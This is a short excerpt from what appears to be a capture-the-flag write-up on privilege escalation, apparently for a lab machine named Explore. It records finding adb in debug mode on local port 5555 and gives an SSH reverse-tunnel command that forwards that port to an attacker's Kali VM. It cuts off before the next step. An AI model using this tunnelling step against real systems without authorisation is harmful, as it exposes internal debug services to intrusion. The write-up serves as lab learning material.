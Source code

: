 # Privilege Escalation to root
## Discovered local port 5555 on which adb in debug mode was running
Discovered local port 5555 on which adb in debug mode was running.
![[Pasted image 20210919190230.png]]
## Port forwarding port 5555 to kali VM via ssh tunnelling 
First of all SSH service was enabled on kali VM (explalined on [link](https://linuxize.com/post/how-to-setup-ssh-tunneling/). Then port 5555 on Explore machine was forwarded via ssh tunnelling to kali VM via command `ssh -R 5555:127.0.0.1:5555 -N -f kali@10.10.14.98 -p 2222`. 
![[Pasted image 20210919190913.png]]
## Now connec

